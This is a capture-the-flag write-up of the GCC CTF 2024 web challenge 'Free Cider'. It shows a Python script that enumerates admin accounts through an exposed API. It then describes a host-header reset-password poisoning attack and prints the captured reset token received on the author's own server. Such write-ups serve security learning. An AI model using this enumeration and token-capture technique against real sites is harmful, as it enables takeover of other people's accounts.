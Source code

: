 ```yaml
---
title: GCC CTF 2024
date: 2024-02-03 08:32:44 +/-0800
categories: [writeup, CTF]
writeup: :title
permalink: /gccctf
tags: [CTF, Web]     # TAG names should always be lowercase
---
```


**Author:** Anackin, Talace

# WEB : **Free Cider**

In the app’s source code we can see a message for admins : 

![note](assets/gccctf/note.png)

So it would seem that there is a swagger that referres the endpoints of an api and it is still up, before let’s analyse the web app so we can login with user password and we can reset password using only user. 

![login](assets/gccctf/login.png)

![reset](assets/gccctf/resetpass.png)

Using burpsuite I intercept the http request and we can  find an api endpoint. 

![endpoint](assets/gccctf/endpoint.png)

To acces the api swager go to `/api/v1/swagger.json`. 

![swagger](assets/gccctf/swagger.png)

The most interresting endpoint is the GET, to find users using an ID. 

![userid](assets/gccctf/userid.png)

The admin parameter is set to false, maybe we need to find all admin account for that I quickly created a python script to fuzz the admin account : 

```python
import requests 

for i in range(50): 
        url=f"""http://worker05.gcc-ctf.com:12283/api/v1/user/{i}"""
        r = requests.get(url)
        print(r.text)
```

Run the script using bash command like this : 

```python
> python fuzz.py > admin.txt && cat admin.txt | grep 'admin":true'
{"admin":true,"id":9,"username":"monique_petersen12"}
{"admin":true,"id":24,"username":"zachary_rodriguez35"}
{"admin":true,"id":31,"username":"vicki_savage190"}
```

after that I try to find mass assignement vulnerability, but I didn’t found suspicious http requests like PUT on any api endpoints. 

I also try to put other parametres on api endpoint  request but that didn’t work. 

I think we need to abuse the endpoint `/api/v1/reset-password` to reset admin password. 

And yeah I saw right, we can do  a **reset password poisoning,** for that launch a request to the endpoint `/api/v1/reset-password`

On the http request change the Host header to a server you have under control like this : 

![request-reset](assets/gccctf/request-reset.png)

Ps* don’t forget to start an http server, in my case I used a VPS !

```python
python3 -m http.server 80
```

Launch the request and see the leaked token send by the target server to reset the admin’s account password

```python
172.234.63.85 - - [02/Mar/2024 17:43:52] code 404, message File not found
172.234.63.85 - - [02/Mar/2024 17:43:52] "GET /reset?token=12cb3489-0ff1-4680-9a17-b5ffc16d73e5 HTTP/1.1" 404 -
```

Go to your browser and use the token to gain access on the reset page. 

![token](assets/gccctf/reset-pass.png)

Use this password and the admin’s account affiliated to log in the app and get the Flag GG ! 😼

Thanks to Mika to this API challs ! we learn a lot.

